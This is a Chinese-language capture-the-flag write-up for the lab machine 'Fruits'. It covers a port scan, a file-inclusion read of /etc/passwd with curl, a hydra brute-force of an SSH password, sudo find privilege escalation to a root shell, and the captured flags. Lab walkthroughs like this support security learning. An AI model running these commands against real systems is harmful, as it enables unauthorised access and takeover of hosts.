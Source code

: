 # Fruits

2025.03.07 https://thehackerslabs.com/fruits/

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

首页上的提交显示 404，扫描出新的 url http://192.168.5.39/fruits.php 空白页面，进行参数 FUZZ，找到参数 file ，存在文件包含可以读取到 passwd : curl -s http://192.168.5.39/fruits.php?file=/etc/passwd , 发现一个普通用户 bananaman 。

在尝试 FUZZ 读取其他文件，都读不到，只好 hydra 爆一下这个用户 bananaman 的登陆密码，发现密码: celtic , ssh 进行登陆。

先拿到了 user flag：

```
bananaman@Fruits:~$ cat user.txt
482c811da5d5b4bc6d497ffa98491e38
```

sudo 显示 (ALL) NOPASSWD: /usr/bin/find 直接提权到 root：

```
sudo find . -exec /bin/sh \; -quit
```

拿到 root flag:

```
# cat root.txt
21232f297a57a5a743894a0e4a801fc3
```
